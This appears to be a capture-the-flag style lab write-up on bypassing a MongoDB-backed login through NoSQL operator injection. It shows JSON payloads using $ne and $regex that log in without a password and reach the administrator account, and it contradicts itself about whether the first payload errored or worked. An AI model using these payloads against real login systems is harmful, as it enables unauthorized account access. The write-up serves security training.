


# Exploiting NoSQL operator injection to bypass authentication
# Objective
The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.\
\
To solve the lab, log into the application as the `administrator` user.\
\
You can log in to your own account using the following credentials: `wiener:peter`.

# Solution
## Analysis
The following payload causes a internal server error:

```json
{"username":{"$ne":"invalidusername"},"password":{"$ne":"invalidpassword"}}
```

||
|:--:| 
| *Payload worked - all users were queried* |

Using the test credentials `wiener:peter` it is possible to login without password:

```json
{"username":"wiener","password":{"$ne":"invalidpassword"}}
```
||
|:--:| 
| *Login without password* |


## NoSQL injection
The username for `admin` user consisted of word "admin" and random characters.

```json
{"username":{"$regex":"admin.*"},"password":{"$ne":"invalidpassword"}}
```
||
|:--:| 
| *Bypass authentication* |